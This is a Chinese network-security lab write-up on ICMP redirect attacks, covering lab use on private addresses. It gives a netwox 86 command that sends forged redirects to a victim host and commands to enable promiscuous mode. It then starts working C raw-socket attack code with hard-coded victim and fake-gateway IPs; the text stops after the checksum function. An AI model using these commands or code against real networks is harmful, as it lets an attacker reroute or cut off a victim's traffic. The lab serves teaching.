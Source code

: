 1. 体验ICMP重定向攻击的效果，加深对ICMP协议功能的理解。

2. 练习使用Raw Socket编程，学习构造包括包头部分的数据包。

## 实验步骤

1. 使用netwox体会实验效果，使用netwox 86发送ICMP重定向包。

   攻击者IP地址：`192.168.10.129`

   被攻击者IP地址：`192.168.10.131`

   使用命令

   ```shell
   netwox 86 -g "192.168.10.129" -i "192.168.10.2"
   ```

   此时被攻击的主机无法上网，Ping命令显示Redirect Host。

   ![Ping](https://bl6pap004files.storage.live.com/y4mlbDymsIsBrgcjZflQAC6d9g5m2moF7tZOnnunR3rltBLhk-r7xgYtV3IfwQ4ETjKxcv6NVcUfHvrR8QOFMxRMbFILdq1SB-0RnmmBTNqE_AGZtWPHgoGhZWtuEWubDqsZCj_ymSu9y21oggSTfkvjZonPdNp8Ca-PDWcKF3FwQ1IggHNOGxzYoTVrvtz0KFA?width=1323&height=692&cropmode=none)

   通过WireShark可以抓到ICMP重定向包。

   ![抓包](https://bl6pap004files.storage.live.com/y4mkSnAnu2Z8kW8RB5lF5yFD6a0k0FMQuM4hcQ2kt9b3dTFv36kJnK_1RWiOgMUdQinumu2YXvLhB-NJOtWOAxMlnXab1EkKZg35AI8nrj9_Jimw_1ru3U-RZ-HHXaqTr_BfQjKVrvXD-JCK24Li-XFhGetGx8dIoU77ORi1VPw6Oj_2iJN3LGvFNSg63wpCPfm?width=866&height=763&cropmode=none)

2. 使用Raw Socket实现ICMP重定向，对指定IP的主机实施重定向攻击。

   注意需要开启虚拟机网卡的混杂模式

   ```
   ifconfig ens33 promisc #开启混杂模式
   ifconfig ens33 -promisc #关闭混杂模式
   ```

   ```c
   // main.c
   #include<stdio.h>
   #include<stdlib.h>
   #include<string.h>
   #include<arpa/inet.h>
   #include<sys/socket.h>
   #include<netinet/ip_icmp.h>
   #include<netinet/if_ether.h>
   
   #define BUFFSIZE 1024
   struct sockaddr_in target;
   struct sockaddr_in source;
   
   const unsigned char *my_IP_src = "192.168.10.2";    // 原网关
   const unsigned char *my_IP_dst = "192.168.10.131";  // 攻击对象IP
   const unsigned char *fakeGatway = "192.168.10.129";  // 攻击者IP
   
   // 计算校验和
   unsigned short in_cksum(unsigned short *addr, int len){
       int sum=0;
       unsigned short res=0;
       while( len > 1)  {
           sum += *addr++;
           len -=2;
       }
       if( len == 1) {
           *((unsigned char *)(&res))=*((unsigned char *)addr);
           sum += res;
       }
       sum = (sum >>16) + (sum & 0xffff);
       sum += (sum >>16) ;
       res = ~sum;
       return res;
   ```